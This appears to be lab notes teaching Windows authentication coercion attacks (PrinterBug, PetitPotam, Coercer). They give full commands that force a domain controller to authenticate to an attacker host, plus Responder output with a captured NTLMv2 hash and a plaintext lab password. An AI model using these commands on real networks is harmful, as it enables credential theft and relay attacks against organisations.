

## What is?
`Authentication coercion` attacks initiate an operation that forces the client to authenticate against us even if they do not intend to initiate authentication. `Authentication coercion` attacks usually rely on insecure code that exits in some protocols used by sensitive servers. As mentioned by [@podalirius_](https://twitter.com/podalirius_) "The root cause of this `vulnerability/feature` in each of these methods is that Windows machines automatically authenticate to other machines when trying to access UNC paths like `\\172.16.117.30\file.txt`."


## Technicalities about an attack
There are plenty of tools to get this one working but all of them more or less do the following steps...
1. Authenticate to a remote machine using valid domain credentials (usually over SMB).
2. Connect to a remote SMB pipe such as `\PIPE\netdfs`, `\PIPE\efsrpc`, `\PIPE\lsarpc`, or `\PIPE\lsass`.
3. Bind to an `RPC` protocol to call its methods on an arbitrary target machine.


# Attacks
## Printer Bug(CVE-2019-1040 or CVE-2019-1166)
This attack abuses the PrintSpooler on Windows based machines. We can use the printerbug.py from this suite [dirkjanm/krbrelayx](https://github.com/dirkjanm/krbrelayx/tree/master)
`PrinterBug` uses `RpcRemoteFindFirstPrinterChangeNotificationEx` to coerce `SMB NTLM` authentication from a domain-joined machine by forcing it to send a notification to an attacker-controlled machine, which requires authentication.
```shell-session
//The last IP is our one
python3 printerbug.py inlanefreight/plaintext$:'o6@ekK5#rlw2rAe'@172.16.117.3 172.16.117.30
```
And after a while we should e able to get a spoofed session in our listening responder.
```shell-session
python3 Responder.py -I ens192                  
<SNIP>
[+] Listening for events...
[SMB] NTLMv2-SSP Client   : 172.16.117.3
[SMB] NTLMv2-SSP Username : INLANEFREIGHT\DC01$
[SMB] NTLMv2-SSP Hash     : DC01$::INLANEFREIGHT:24044d80125dd669:F3DC56D71629EA180ED2C542D622AF79:010100000000000080<SNIP>
```
In case the *WEBDav* is active on the machine you can set the following command, it is basically the same except it requires the path and the user of the webdav. **ATTACKER_MACHINE_NAME@PORT/PATH**:
- `ATTACKER_MACHINE_NAME` must be the `NetBIOS` or `DNS` name of the attacker machine (`Responder` provides one by default when we start it); however, because `Responder` will poison broadcast traffic in any case, we set it to an arbitrary string. In our case, we will set it to `SUPPORTPC`.
- `PORT` specifies an arbitrary port the `WebDAV` service will use to connect to the attack machine. In our case, we will set it to `80`.
- `PATH` specifies an arbitrary path the `WebDAV` service will attempt to connect. In our case, we will set it to `print`.
```shell-session
python3 printerbug.py inlanefreight/plaintext$:'o6@ekK5#rlw2rAe'@172.16.117.60 SUPPORTPC@80/print
```

## PetitPotam(CVE-2021-36942)
[PetitPotam](https://github.com/topotam/PetitPotam) abuses the [EfsRpcOpenFileRaw](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8) and [EfsRpcEncryptFileSrv](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/0d599976-758c-4dbd-ac8c-c9db2a922d76) methods of [Encrypting File System Remote Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) (`MS-EFSR`/`EFSRPC`). Similar to the `PrinterBug`, `PetitPotam` requires valid domain credentials; however, prior to patching the two abused methods as addressed in [CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942), attackers without valid domain credentials were able to coerce authentication from any domain-joined machine, including domain controllers.
Setup the attack via PetitPotam.py:
```shell-session
python3 PetitPotam.py 172.16.117.30 172.16.117.3 -u 'plaintext$' -p 'o6@ekK5#rlw2rAe' -d inlanefreight.local
```
And the listener on you machine.
```shell-session
python3 Responder.py -I ens192
<SNIP>
[+] Listening for events...
[SMB] NTLMv2-SSP Client   : 172.16.117.3
[SMB] NTLMv2-SSP Username : INLANEFREIGHT\DC01$
[SMB] NTLMv2-SSP Hash     : DC01$::INLANEFREIGHT:24044d80125dd669:F3DC56D71629EA180ED2C542D622AF79:010100000000000080<SNIP>
```
After a while you should get back the spoofed request in the listening Responder session. In case *WEBDav* is active same story applies(use the HOSTNAME and port of the Responder):
```shell-session
python3 PetitPotam.py WIN-MMRQDG2R0ZX@80/files 172.16.117.60 -u 'plaintext$' -p 'o6@ekK5#rlw2rAe'
```
And after a while you should get a spoofed session in your responder.

## DFS Coercer
This tool is very good as it is a "compilation" of several *Coercing* attacks by trying all the possibilities and doing most the job for you.
You will start by using the scanner to check all the possible victims for Authentication coercion possibilites.
```shell-session
coercer scan -t 172.16.117.50 -u 'plaintext$' -p 'o6@ekK5#rlw2rAe' -d inlanefreight.local -v
       ______
      / ____/___  ___  _____________  _____
     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
    / /___/ /_/ /  __/ /  / /__/  __/ /      v2.4-blackhat-edition
    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

[info] Starting scan mode
[info] Scanning target 172.16.117.50
[+] Listening for authentications on '172.16.117.30', SMB port 445
[!] SMB named pipe '\PIPE\Fssagentrpc' is not accessible!
[!] SMB named pipe '\PIPE\efsrpc' is not accessible!
[+] SMB named pipe '\PIPE\eventlog' is accessible!
   [+] Successful bind to interface (82273fdc-e32a-18c3-3f78-827929dc23ea, 0.0)!
      [!] (NO_AUTH_RECEIVED) MS-EVEN──>ElfrOpenBELW(BackupFileName='\??\UNC\172.16.117.30\sXd63wiK\aa') 
<SNIP>
```
In case of success you will initiate a attack over the RPC method on the victim host and performing a relay with ntlmrelayx tool.
```shell-session
coercer coerce -t 172.16.117.50 -l 172.16.117.30 -u 'plaintext$' -p 'o6@ekK5#rlw2rAe' -d inlanefreight.local -v --always-continue
```
Same applies here in case of WEBDav active remember to give the hostname of the responder machine and the listening port.
```shell-session
python3 Coercer.py -t 172.16.117.60 -u 'plaintext$' -p 'o6@ekK5#rlw2rAe' -wh SUPPORTPC2 -wp 80 -v
```
As usual do not forget the listener in Responder.
```shell-session
python3 Responder.py -I ens192
```